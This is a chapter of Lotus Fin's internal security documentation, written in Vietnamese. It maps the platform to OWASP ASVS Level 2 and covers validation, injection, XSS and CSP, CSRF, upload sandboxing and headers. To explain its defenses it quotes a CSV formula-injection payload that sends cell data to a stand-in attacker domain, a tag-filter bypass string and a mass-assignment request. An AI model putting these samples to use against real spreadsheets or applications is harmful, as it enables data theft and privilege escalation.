

# 06 — An Toàn Ứng Dụng (OWASP ASVS Level 2)

> **Tài liệu:** Lotus Fin Security Documentation Set · **Phiên bản:** 1.0 · **Ngày:** 2026-09-18
> **Phân loại:** `INTERNAL`
> **Giảm thiểu các mối đe dọa:** `THR-005`, `THR-007`, `THR-008`, `THR-010`, `THR-012`, `THR-013`, `THR-019`, `THR-020`, `THR-030`, `THR-031`
> **Ánh xạ chuẩn:** OWASP ASVS 4.0.3 Level 2 · OWASP Top 10:2021 · ISO/IEC 27001:2022 — A.8.26 (Application security requirements), A.8.28 (Secure coding) · PCI DSS v4.0.1 — Req 6.2, 6.3

---

## 1. Đối chiếu OWASP Top 10:2021

| # | Rủi ro | Mức độ liên quan tới Lotus Fin | Kiểm soát chính | Chi tiết |
| :--- | :--- | :--- | :--- | :--- |
| **A01** | Broken Access Control | 🔴 **Cao nhất** — nền tảng đa tenant | 3 lớp phân quyền + PostgreSQL RLS | `04 §5` |
| **A02** | Cryptographic Failures | 🔴 Cao — dữ liệu tài chính | AES-256-GCM · Envelope encryption · TLS 1.3 | `05` |
| **A03** | Injection | 🟠 Trung bình *(giảm mạnh nhờ sqlc)* | sqlc · Validate allowlist · Escape theo ngữ cảnh | §3 |
| **A04** | Insecure Design | 🔴 Cao | Threat model bắt buộc trước mỗi tính năng lớn | `03` |
| **A05** | Security Misconfiguration | 🟠 Trung bình | IaC · Cấu hình mặc định an toàn · Quét cấu hình trong CI | `08` |
| **A06** | Vulnerable Components | 🟠 Trung bình | govulncheck · Trivy · Dependabot · SBOM | `10 §4` |
| **A07** | Identification & Auth Failures | 🔴 Cao | Argon2id · MFA · Quản lý phiên chặt | `04` |
| **A08** | Software & Data Integrity Failures | 🟠 Trung bình | Ký ảnh container · Khóa phiên bản · SLSA | `10 §5` |
| **A09** | Logging & Monitoring Failures | 🟠 Trung bình | Audit chuỗi băm · SIEM · Use case phát hiện | `09` |
| **A10** | SSRF | 🟠 Trung bình | Không nhận URL người dùng · Egress allowlist | `07 §5` |

---

## 2. Xác thực đầu vào (Input Validation)

### 2.1. Mô hình hai tầng

Lotus Fin tách bạch hai loại xác thực, vì trộn lẫn chúng là nguyên nhân khiến validation trở nên vừa thừa vừa thiếu:

| Tầng | Vị trí | Xác thực điều gì | Mã lỗi trả về |
| :--- | :--- | :--- | :--- |
| **Cú pháp** | DTO ở tầng Delivery | Kiểu dữ liệu · Định dạng · Khoảng giá trị · Độ dài · Trường bắt buộc | `400 Bad Request` |
| **Ngữ nghĩa** | Entity ở tầng Domain | Bất biến nghiệp vụ · Tính nhất quán · Chuyển trạng thái hợp lệ | `422 Unprocessable Entity` |

Ví dụ với `POST /api/v1/repayment-scenarios` (UC006):

* **Cú pháp:** `interest_rate` phải là số thập phân, `term_months` phải là số nguyên dương.
* **Ngữ nghĩa:** `interest_rate` phải nằm trong khoảng 0–100%; `term_months` từ 1 đến 360; số tiền vay không vượt quá bội số hợp lý của doanh thu năm.

Ranh giới này quan trọng vì **tầng domain phải tự bảo vệ mình**, không được giả định rằng tầng trên đã lọc. Nếu ngày mai ta thêm một CLI worker gọi thẳng vào UseCase, bất biến nghiệp vụ vẫn được đảm bảo mà không cần viết lại validation.

### 2.2. Nguyên tắc allowlist

| Nguyên tắc | Thực thi |
| :--- | :--- |
| Mặc định từ chối | Trường không có trong DTO → từ chối request (`DisallowUnknownFields`) |
| Giới hạn tường minh | Mọi trường số và chuỗi đều có khoảng/độ dài xác định |
| Chuẩn hóa trước khi kiểm tra | Chuẩn hóa Unicode NFC trước khi so sánh — chống bypass bằng ký tự tương đương |
| Không sửa dữ liệu bẩn | **Từ chối**, không "làm sạch rồi dùng tiếp" — sanitize thường tạo ra lỗ hổng bypass mới |

> **Vì sao từ chối thay vì làm sạch:** Việc "lọc bỏ ký tự xấu" giả định ta biết trước danh sách đầy đủ của ký tự xấu — điều chưa từng đúng trong lịch sử bảo mật web. Tệ hơn, việc lọc có thể *tạo ra* payload độc: lọc chuỗi `<script>` khỏi `<scr<script>ipt>` cho ra đúng `<script>`. Từ chối thẳng thì không có lớp logic nào để đánh lừa.

### 2.3. Chống gán thuộc tính hàng loạt (`THR-019`)

Không bao giờ bind request JSON trực tiếp vào entity domain. Mỗi endpoint có DTO riêng chỉ chứa **đúng những trường mà endpoint đó cho phép thay đổi**.

Ví dụ cụ thể: endpoint cập nhật hồ sơ người dùng có DTO chứa `full_name` và `phone`. Nó **không** chứa `role`, `tenant_id`, hay `is_mfa_enabled`. Ngay cả khi kẻ tấn công gửi lên `{"full_name": "x", "role": "OWNER"}`, trường `role` không tồn tại trong DTO và request bị từ chối vì có trường lạ.

---

## 3. Phòng chống Injection

### 3.1. SQL Injection — loại bỏ ở cấp kiến trúc

| Kiểm soát | Cơ chế |
| :--- | :--- |
| **sqlc** | Sinh code Go từ file `.sql` viết sẵn. Tham số luôn được bind, **không có API nào nhận chuỗi SQL động** |
| Lint | Chặn `fmt.Sprintf` / nối chuỗi trong package `infra/postgres` |
| Semgrep | Rule tùy chỉnh phát hiện mọi truy vấn không đi qua sqlc |
| Quyền DB | Tài khoản ứng dụng không có `DROP`, không có quyền đọc bảng hệ thống |

> Điểm mạnh của cách tiếp cận này: nó không yêu cầu lập trình viên phải *nhớ* dùng prepared statement. Trong codebase dùng sqlc, viết một truy vấn có SQL injection đòi hỏi phải **cố ý đi vòng qua toàn bộ tầng data access** — một hành động lộ liễu và sẽ bị chặn ngay ở code review. So với cách dùng ORM tổng quát vẫn cho phép `db.Raw(...)`, đây là khác biệt giữa "khó làm sai" và "không làm sai được".

### 3.2. Các dạng injection khác

| Loại | Vector trong Lotus Fin | Kiểm soát |
| :--- | :--- | :--- |
| Command Injection | Không có — hệ thống không gọi shell | Lint chặn `os/exec` trong tầng nghiệp vụ |
| Path Traversal | Tên tệp do người dùng đặt khi upload | **Không bao giờ dùng tên gốc** — sinh UUID làm khóa lưu trữ |
| CSV/Formula Injection | Xuất báo cáo ra CSV/Excel | Thêm dấu `'` phía trước ô bắt đầu bằng `=`, `+`, `-`, `@`, tab, CR |
| XXE | Parse tệp XLSX (bản chất là XML) | Tắt xử lý external entity và DTD |
| Log Injection | Đầu vào người dùng xuất hiện trong log | Logger có cấu trúc (JSON), không nối chuỗi vào thông điệp log |
| Header Injection | — | Thư viện HTTP của Go từ chối CR/LF trong giá trị header |
| Template Injection | Render báo cáo | `html/template` (tự escape theo ngữ cảnh), **không** dùng `text/template` cho HTML |

> **Về CSV Formula Injection — một lỗ hổng bị đánh giá thấp một cách nguy hiểm.** Người dùng nhập tên đối tác là `=HYPERLINK("http://ke-tan-cong.com?d="&A1,"Nhấp vào đây")`. Hệ thống lưu vô hại. Nhưng khi kế toán xuất báo cáo ra CSV và mở bằng Excel, công thức **thực thi trên máy nạn nhân** và có thể trích xuất dữ liệu từ các ô khác gửi ra ngoài. Đây là tấn công vượt qua ranh giới hệ thống: lỗ hổng nằm trong ứng dụng của ta, nhưng thực thi trên máy trạm của người dùng — nơi ta không có kiểm soát nào.

---

## 4. Phòng chống XSS (`THR-007`)

### 4.1. Các lớp phòng thủ

| Lớp | Cơ chế | Chặn được gì |
| :--- | :--- | :--- |
| Framework | React tự escape mọi giá trị nội suy trong JSX | Phần lớn XSS phản xạ và lưu trữ |
| Lint | ESLint rule cấm `dangerouslySetInnerHTML` — vi phạm phải có phê duyệt bảo mật | Việc vô hiệu hóa escape một cách vô ý |
| Sanitize | Nếu bắt buộc render HTML (nội dung do AI sinh) → DOMPurify với allowlist thẻ nghiêm ngặt | XSS từ nội dung mô hình sinh ra |
| **CSP** | Nonce theo request + `strict-dynamic`, **không** `unsafe-inline` | Thực thi script kể cả khi đã chèn được vào DOM |
| Cookie | `HttpOnly` | **Đánh cắp phiên** kể cả khi XSS thành công |

### 4.2. Content Security Policy

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-{RANDOM_MỖI_REQUEST}' 'strict-dynamic';
  style-src 'self' 'nonce-{RANDOM_MỖI_REQUEST}';
  img-src 'self' data: blob:;
  font-src 'self';
  connect-src 'self';
  frame-ancestors 'none';
  form-action 'self';
  base-uri 'none';
  object-src 'none';
  upgrade-insecure-requests;
  report-uri /api/v1/csp-reports
```

| Chỉ thị | Vì sao quan trọng |
| :--- | :--- |
| `nonce` + `strict-dynamic` | Cho phép script hợp lệ chạy mà **không cần** `unsafe-inline`. Nonce đổi mỗi request nên kẻ tấn công không đoán được |
| `base-uri 'none'` | Chặn tấn công chèn thẻ `<base>` để đổi hướng mọi URL tương đối trên trang |
| `object-src 'none'` | Loại bỏ vector Flash/plugin cũ |
| `frame-ancestors 'none'` | Chống clickjacking (`THR-013`) |
| `form-action 'self'` | Chặn việc chèn form gửi dữ liệu ra domain ngoài |
| `report-uri` | Nhận báo cáo vi phạm → **phát hiện sớm nỗ lực XSS** ngay cả khi CSP đã chặn thành công |

> **Điểm dễ bị bỏ sót:** Rất nhiều CSP trong thực tế vô hiệu vì có `'unsafe-inline'` trong `script-src` — thường được thêm vào để "cho nhanh" khi một thư viện nào đó cần inline script. Nhưng `'unsafe-inline'` **vô hiệu hóa gần như toàn bộ giá trị của CSP**, vì XSS chính là việc chèn inline script. Cặp `nonce` + `strict-dynamic` giải quyết đúng nhu cầu đó mà không phải hy sinh khả năng phòng thủ.

### 4.3. Xử lý đặc thù với nội dung do AI sinh

Nội dung mô hình ngôn ngữ sinh ra là **dữ liệu không tin cậy**, ngang hàng với đầu vào người dùng — bởi vì nó *có thể được điều khiển bởi* đầu vào người dùng thông qua prompt injection.

| Quy tắc | Lý do |
| :--- | :--- |
| Mặc định render dưới dạng **văn bản thuần** | An toàn nhất, đủ dùng cho hầu hết trường hợp |
| Nếu cần Markdown → parse sang AST rồi render bằng component React | Không đi qua chuỗi HTML, nên không có bề mặt XSS |
| **Cấm tuyệt đối** `dangerouslySetInnerHTML` với nội dung AI | Bề mặt XSS trực tiếp |
| Loại bỏ mọi thẻ `<a>`, `` có URL do AI sinh | Chống trích xuất dữ liệu qua URL (một kỹ thuật khai thác prompt injection phổ biến) |

---

## 5. Bảo vệ CSRF (`THR-008`)

| Lớp | Cơ chế |
| :--- | :--- |
| 1 | `SameSite=Strict` trên cookie phiên — chặn phần lớn CSRF ở tầng trình duyệt |
| 2 | Double-submit token: giá trị ngẫu nhiên trong cookie + cùng giá trị trong header `X-CSRF-Token` |
| 3 | Kiểm tra header `Origin` / `Sec-Fetch-Site` cho mọi request thay đổi trạng thái |
| 4 | Step-up MFA cho thao tác tài chính quan trọng — chặn CSRF ngay cả khi ba lớp trên đều thủng |

---

## 6. 📤 An toàn tải tệp lên (UC001) — bề mặt tấn công nguy hiểm nhất

Chức năng upload là nơi kẻ tấn công **kiểm soát hoàn toàn nội dung** mà hệ thống ta sẽ xử lý. Đây là điểm khởi đầu của tác nhân `TA-6`.

### 6.1. Pipeline kiểm tra nhiều tầng



### 6.2. Bảng kiểm soát chi tiết

| # | Kiểm soát | Cấu hình | Chống lại |
| :--- | :--- | :--- | :--- |
| 1 | Giới hạn kích thước | 25 MB *(theo SRS UC001)* — cưỡng chế ở cả biên lẫn ứng dụng | DoS qua tệp lớn |
| 2 | Allowlist phần mở rộng | `.pdf`, `.csv`, `.xlsx`, `.xls` | Tải lên tệp thực thi |
| 3 | **Kiểm tra magic byte** | Nội dung thật phải khớp phần mở rộng | Đổi tên `payload.exe` thành `baocao.pdf` |
| 4 | Kiểm tra MIME | `Content-Type` phải nhất quán với magic byte | Nhầm lẫn kiểu nội dung |
| 5 | Quét mã độc | ClamAV, cập nhật định nghĩa hằng ngày | Phát tán mã độc |
| 6 | **Sinh tên lưu trữ mới** | Khóa = UUIDv7 ngẫu nhiên; tên gốc chỉ lưu làm metadata *(đã escape)* | Path traversal · Ghi đè tệp |
| 7 | Lưu ngoài thư mục web | Object Store riêng, bucket chặn truy cập công khai | Thực thi tệp đã tải lên |
| 8 | **Parse trong sandbox** | gVisor/Firecracker · không mạng · rootfs chỉ đọc · dùng một lần | **Thực thi mã tùy ý qua lỗi parser** |
| 9 | Giới hạn tài nguyên | CPU 2 giây · RAM 512 MB · Timeout 30 giây | Zip bomb · Vòng lặp vô hạn |
| 10 | Giới hạn giải nén | Tỉ lệ tối đa 100:1 · Tối đa 1000 dòng/sheet · Tối đa 50 sheet | Decompression bomb |
| 11 | Tắt external entity | Không xử lý DTD/entity khi parse XML trong XLSX | XXE · SSRF qua entity |
| 12 | Tải xuống an toàn | URL ký TTL 60s · `Content-Disposition: attachment` · `X-Content-Type-Options: nosniff` | XSS qua tệp được phục vụ lại |
| 13 | Domain tách biệt cho tệp | Phục vụ tệp từ domain không chứa cookie phiên | Chiếm phiên qua nội dung tệp |
| 14 | Ghi audit | Mọi lần upload/download đều ghi lại kèm hash SHA-256 | Không thể chối bỏ · Điều tra sự cố |

### 6.3. Vì sao sandbox là kiểm soát then chốt

Các kiểm soát 1–7 đều là *kiểm tra*: chúng cố gắng phân biệt tệp lành và tệp độc trước khi xử lý. Vấn đề là chúng **chỉ chặn được những gì đã biết**. Một tệp PDF hoàn toàn hợp lệ về mặt định dạng, sạch với mọi bộ quét virus, vẫn có thể kích hoạt lỗi tràn bộ đệm trong thư viện parse — vì lỗi nằm ở *cách thư viện xử lý*, không phải ở *nội dung có vẻ độc hại*.

Lịch sử CVE của các thư viện xử lý tài liệu (PDF, Office, hình ảnh) là một chuỗi dài lỗi thực thi mã từ xa. Giả định vận hành đúng đắn không phải là "ta sẽ chặn được mọi tệp độc", mà là: **quá trình parse sẽ có lúc bị chiếm quyền thực thi.**

Sandbox trả lời câu hỏi *"và rồi sao nữa?"*:

* **Không có mạng** → không gọi về máy chủ điều khiển, không quét mạng nội bộ, không trích xuất dữ liệu ra ngoài.
* **Rootfs chỉ đọc** → không cài được backdoor tồn tại lâu dài.
* **Không có credential** → không có gì để đánh cắp trong môi trường đó.
* **Dùng một lần rồi hủy** → quyền truy cập chấm dứt trong vài giây, không có tính bền vững.
* **gVisor/Firecracker** → thoát khỏi sandbox đòi hỏi một lỗ hổng *thứ hai* trong lớp cách ly nhân, một rào cản cao hơn nhiều bậc.

Kết quả: một khai thác RCE thành công trên parser **không mang lại gì cho kẻ tấn công** ngoài vài giây tính toán trong một hộp rỗng. Đây là hiện thân cụ thể của nguyên tắc *Assume Breach*.

---

## 7. Security Headers

| Header | Giá trị | Mục đích |
| :--- | :--- | :--- |
| `Strict-Transport-Security` | `max-age=63072000; includeSubDomains; preload` | Bắt buộc HTTPS, chống hạ cấp giao thức |
| `Content-Security-Policy` | *(xem §4.2)* | Chống XSS |
| `X-Content-Type-Options` | `nosniff` | Chặn trình duyệt tự đoán kiểu nội dung |
| `X-Frame-Options` | `DENY` | Chống clickjacking *(dự phòng cho `frame-ancestors`)* |
| `Referrer-Policy` | `strict-origin-when-cross-origin` | Không rò rỉ URL nội bộ ra trang ngoài |
| `Permissions-Policy` | `camera=(), microphone=(), geolocation=(), payment=()` | Vô hiệu hóa API trình duyệt không dùng tới |
| `Cross-Origin-Opener-Policy` | `same-origin` | Cách ly ngữ cảnh duyệt web |
| `Cross-Origin-Resource-Policy` | `same-origin` | Chống tấn công đọc chéo nguồn gốc |
| `Cache-Control` | `private, no-store` *(cho phản hồi có dữ liệu tenant)* | Chống đầu độc cache (`THR-011`) |

---

## 8. Xử lý lỗi & Thông báo lỗi

| Nguyên tắc | Triển khai |
| :--- | :--- |
| Không lộ chi tiết nội bộ | Client nhận mã lỗi ngữ nghĩa + `requestId`; stack trace chỉ ghi ở log phía server |
| Mã lỗi ngữ nghĩa | Theo quy chuẩn API §5.3 — `INSUFFICIENT_DATA_FOR_FORECAST`, `DSCR_BELOW_THRESHOLD` |
| Lỗi xác thực đồng nhất | Mọi lỗi đăng nhập trả cùng một thông điệp và cùng thời gian phản hồi |
| Fail closed | Lỗi trong kiểm soát bảo mật → **từ chối truy cập**, không phải cho qua |
| Không nuốt lỗi âm thầm | Mọi lỗi đều được ghi log; lỗi liên quan bảo mật ghi ở mức `WARN` trở lên |

> **Fail closed là nguyên tắc bị vi phạm nhiều nhất dưới áp lực sự cố.** Khi dịch vụ phân quyền timeout, cám dỗ tự nhiên là "cứ cho qua để hệ thống không sập". Đó chính xác là cách một sự cố về độ sẵn sàng biến thành một sự cố rò rỉ dữ liệu. Lotus Fin chọn trả `503 Service Unavailable` thay vì cấp quyền khi không chắc chắn — và SLO 99.5% được thiết kế với ngân sách cho lựa chọn này.

---

## 9. ✅ Checklist kiểm chứng OWASP ASVS Level 2

Cột **Kiểm chứng** ghi rõ *cách chứng minh*, vì một kiểm soát không kiểm chứng được thì không tồn tại.

### V1 — Kiến trúc

| ASVS | Yêu cầu | Trạng thái | Kiểm chứng |
| :--- | :--- | :---: | :--- |
| V1.1.2 | Threat model cho mọi thiết kế | ✅ | Tài liệu `03` |
| V1.1.3 | Có yêu cầu bảo mật cho mọi user story | ✅ | Ma trận truy vết `13` |
| V1.2.2 | Giao tiếp giữa các thành phần đều xác thực | ✅ | mTLS — `05 §4` |
| V1.4.4 | Kiểm soát truy cập thực thi phía tin cậy | ✅ | `04 §5` |
| V1.5.3 | Xác thực đầu vào ở tầng dịch vụ tin cậy | ✅ | §2 |
| V1.8.1 | Dữ liệu nhạy cảm được phân loại | ✅ | Tài liệu `02` |

### V5 — Xác thực & Mã hóa đầu ra

| ASVS | Yêu cầu | Trạng thái | Kiểm chứng |
| :--- | :--- | :---: | :--- |
| V5.1.1 | Chống ô nhiễm tham số HTTP | ✅ | Từ chối tham số trùng lặp |
| V5.1.3 | Xác thực mọi đầu vào theo allowlist | ✅ | §2.2 |
| V5.2.3 | Sanitize đầu vào đưa vào template | ✅ | `html/template` |
| V5.3.1 | Mã hóa đầu ra theo ngữ cảnh | ✅ | React auto-escape + DOMPurify |
| V5.3.3 | Chống XSS theo ngữ cảnh | ✅ | §4 |
| V5.3.4 | Chống SQL injection bằng truy vấn tham số hóa | ✅ | sqlc — §3.1 |
| V5.3.8 | Chống deserialization không an toàn | ✅ | Chỉ JSON, có schema, không dùng gob/pickle |
| V5.5.2 | Parser XML tắt external entity | ✅ | §3.2 |

### V7 — Xử lý lỗi & Nhật ký

| ASVS | Yêu cầu | Trạng thái | Kiểm chứng |
| :--- | :--- | :---: | :--- |
| V7.1.1 | Không ghi credential vào log | ✅ | `09 §2` |
| V7.1.3 | Ghi log sự kiện bảo mật | ✅ | `09 §1` |
| V7.1.4 | Log có đủ metadata phục vụ điều tra | ✅ | `09 §1` |
| V7.3.1 | Bảo vệ log khỏi chèn dữ liệu và giả mạo | ✅ | Log có cấu trúc + chuỗi băm |
| V7.4.1 | Thông báo lỗi chung chung với người dùng | ✅ | §8 |

### V12 — Tệp tin & Tài nguyên

| ASVS | Yêu cầu | Trạng thái | Kiểm chứng |
| :--- | :--- | :---: | :--- |
| V12.1.1 | Giới hạn kích thước tệp | ✅ | §6.2 #1 |
| V12.2.1 | Xác thực kiểu tệp | ✅ | §6.2 #3, #4 |
| V12.3.1 | Tên tệp do người dùng không dùng trực tiếp | ✅ | §6.2 #6 |
| V12.3.2 | Chống path traversal | ✅ | §6.2 #6 |
| V12.4.1 | Tệp lưu ngoài thư mục web | ✅ | §6.2 #7 |
| V12.4.2 | Quét mã độc | ✅ | §6.2 #5 |
| V12.5.1 | Không phục vụ tệp với kiểu nội dung nguy hiểm | ✅ | §6.2 #12 |
| V12.6.1 | Chống SSRF qua tải tệp từ URL | ✅ | Không hỗ trợ tải từ URL |

### V13 — API

| ASVS | Yêu cầu | Trạng thái | Kiểm chứng |
| :--- | :--- | :---: | :--- |
| V13.1.3 | API có kiểm soát truy cập ở từng endpoint | ✅ | `04 §3.2` |
| V13.2.1 | HTTP method hạn chế đúng mục đích | ✅ | Quy chuẩn API §2 |
| V13.2.3 | Chống CSRF cho API | ✅ | §5 |
| V13.2.5 | Xác thực `Content-Type` | ✅ | Từ chối kiểu không mong đợi |
| V13.3.1 | Xác thực schema với dịch vụ backend | ✅ | `07 §7` |

---

## 10. Điều hướng

| ← Trước | Tiếp theo → |
| :--- | :--- |
| [05 — Bảo vệ dữ liệu & Mật mã](05-data-protection-cryptography.md) | [07 — An toàn API & Tích hợp](07-api-integration-security.md) |
